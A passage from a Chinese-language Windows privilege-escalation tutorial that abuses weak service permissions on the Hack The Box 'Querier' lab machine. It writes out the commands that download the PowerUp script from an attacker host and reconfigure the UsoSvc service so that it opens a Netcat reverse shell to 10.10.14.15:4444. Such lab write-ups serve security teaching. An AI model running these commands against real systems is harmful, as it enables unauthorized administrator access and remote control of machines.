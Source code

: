 ```
当低级用户可以使用高级特权修改服务时，这就是弱服务权限。配置错误可能包括：

- 不正确的访问控制列表（ACL），允许非管理员修改服务。

- 服务具有弱文件权限。

接下来利用“Hack The Box: Querier”机器上的弱服务权限, 一旦获得了shell, 将成为mssql_svc用户。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-43.webp)

第一步将从攻击机器下载PowerUp脚本。可以在与脚本相同的目录中启动Python服务器，使用以下命令：python3 -m http.server

进入Powershell，然后进入C:\Reports文件夹。使用以下命令下载PowerUp脚本：

```
Invoke-WebRequest -Uri http://10.10.14.15:8000/PowerUp.ps1 -OutFile C:\Reports\PowerUp.ps1
```

确保将IP和端口更改为自己机器的设置。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-44.webp)

下载完成后，使用Invoke-AllChecks运行PowerUp:

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-45.webp)

通过这个服务，可以使用PowerUp的Invoke-ServiceAbuse函数，该函数滥用了当前用户具有配置权限的功能，以添加本地管理员或执行自定义命令。

值得注意的是，要利用这个服务，CanRestart必须为True。因为重新启动服务是我们执行命令的方法。

可以通过手动更改binpath来执行此操作以运行命令。将运行Netcat以提供反向shell作为管理员。

切换回普通命令提示符。需要通过使用“sc”（服务控制）命令修改UsoSvc服务的配置，将binpath设置为运行Netcat反向shell。

```
sc config UsoSvc binpath= "C:\Reports\nc.exe -e cmd.exe 10.10.14.15 4444"
```

要检查命令是否有效并查询服务的配置信息，可以使用以下命令：

```
sc qc UsoSvc
```

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-46.webp)

命令已生效，因为新的binpath已设置为我们的命令。现在需要停止然后重新启动服务，以弹出系统shell。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791965-47.webp)

确保攻击机器上已启动了Netcat，并且一旦启动了服务，将拥有一个提升的shell。

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791966-48.webp)

如果服务权限不足，可以利用这一点来提升权限。就像在定时任务部分提到的那样，在实际的任务中，务必确保备份和恢复修改、替换或删除的任何文件。